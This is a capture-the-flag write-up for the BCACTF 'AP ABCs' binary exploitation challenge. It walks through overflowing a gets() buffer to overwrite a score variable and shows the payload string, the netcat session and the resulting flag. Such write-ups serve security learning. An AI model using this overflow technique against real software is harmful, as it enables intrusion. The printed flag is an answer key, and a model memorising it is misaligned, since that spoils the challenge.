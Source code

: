 # AP ABCs
**Category :** binex

## Description
Oh wow, they put a freshman in AP ABCs? Never thought I'd see this happen. Anyways, good luck, and make sure to not cheat on your AP test!

## Solution
Given :-
- binary file (ap-abcs)
- source file (ap-abcs.c)
- netcat host and port

Binary file is ELF(linux) 64bit.
```
$ file ap-abcs
ap-abcs: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=42321f439d044b8521675d20b2e897f7019f0b11, for GNU/Linux 3.2.0, not stripped
```
Tried compiling the source file and it produces a warning for gets() function.
```
$ gcc ap-abcs.c
ap-abcs.c: In function ‘main’:
ap-abcs.c:66:5: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   66 |     gets(response);
      |     ^~~~
      |     fgets
/usr/bin/ld: /tmp/ccAONohq.o: in function `main':
ap-abcs.c:(.text+0x2ce): warning: the `gets' function is dangerous and should not be used.
```
Looked for the [gets() function](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm) in google and found that it reads input till it hits the newline character. So, we can overflow the input buffer *response* which can only hold 50 bytes.

So, lets overflow the buffer and re-write the *score* variable.

### Attempt 1
```
$ ./ap-abcs
...
╔══════════════════════════════════════════╗
║          2021 AP® Alphabet FRQs          ║
║                                          ║
║                 ALPHABET                 ║
║                Section II                ║
║             Total Time—1 hour            ║
║           Number of Questions—1          ║
║                                          ║
║                                          ║
║ 1. Recite the alphabet                   ║
║                                          ║
║ ──────────────────────────────────────── ║
║                                          ║
║                                          ║
║                                          ║
║                   STOP                   ║
║                END OF EXAM               ║
║                                          ║
║                    -2-                   ║
╚══════════════════════════════════════════╝

Answer for 1: abcdefghijklmnopqrstuvwxyz hahjfhkhdg kglkasgk dgfjh augh aiugh kjg akjgnaskgai uhgierhg bgfb ifghg hegh erug ewrii ghhfq

You got a 5 on your APs.
Nice job!
Segmentation fault (core dumped)
```
Even though we overflowed the buffer, still the score returns exact value.
```
 62     printf("Answer for 1: ");
 63     gets(response);
 64
 65     for (int i = 0; i < 26; ++i) {
 66         if (response[i] == 0)
 67             break;
 68         if (response[i] != correct[i])
 69             break;
 70
 71         if (i == 0)
 72             score = 1;
 73         if (i == 7 || i == 14 || i == 20 || i == 24)
 74             ++score;
 75     }
```
After looking at the code we find that after the overflow of *response* variable, the value of *score* is set again (line 72 & 74). So, we should not be adding the a..z values and skip the for loop all together like adding '0' at start.
### Attempt 2
```
$ ./ap-abcs
...
Answer for 1: 0gkadg jgh hghgkjh kghwerroigh hgskdhvskgn akegweirgh gfhkzakggf skhgse igheitheg   jgsgj

You got a 1701344361 on your APs.
Inconsistency detected by ld.so: ../elf/dl-runtime.c: 80: _dl_fixup: Assertion `ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT' failed!
```
Now we can see that value of *score* got changed. Ok what is the value in it then.
```
$ python3 -c 'print(bytes.fromhex(hex(1701344361)[2:]).decode("utf-8"))'
ehti
```
Now we need to find this value from our above provided input. Due to little endian, we need to look for the string in reverse.
```
$ printf "0gkadg jgh hghgkjh kghwerroigh hgskdhvskgn akegweirgh gfhkzakggf skhgse igheitheg   jgsgj" | grep "ithe"
```
But we need to hit the required *score* value *0x73434241*. So we need to replace the *"ithe"* with *"ABCs"*.
```
$ python3 -c 'print(bytes.fromhex("0x73434241"[2:]).decode("utf-8"))'
sCBA
$ ./ap-abcs
...
Answer for 1: 0gkadg jgh hghgkjh kghwerroigh hgskdhvskgn akegweirgh gfhkzakggf skhgse igheABCs

You got a 1933787713 on your APs.
Tsk tsk tsk.
Cheating on the AP® tests is really bad!
Let me read you the College Board policies:
AAAA, I lost my notes!
You stay here while I go look for them.
And don't move, you're still in trouble!
[If you are seeing this on the remote server, please contact admin].

$ nc bin.bcactf.com 49154
...
Answer for 1: 0gkadg jgh hghgkjh kghwerroigh hgskdhvskgn akegweirgh gfhkzakggf skhgse igheABCs

You got a 1933787713 on your APs.
Tsk tsk tsk.
Cheating on the AP® tests is really bad!
Let me read you the College Board policies:
...
And take your flag: bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}
```

## Flag
bcactf{bca_is_taking_APs_in_june_aaaaaaaa_wish_past_me_luck}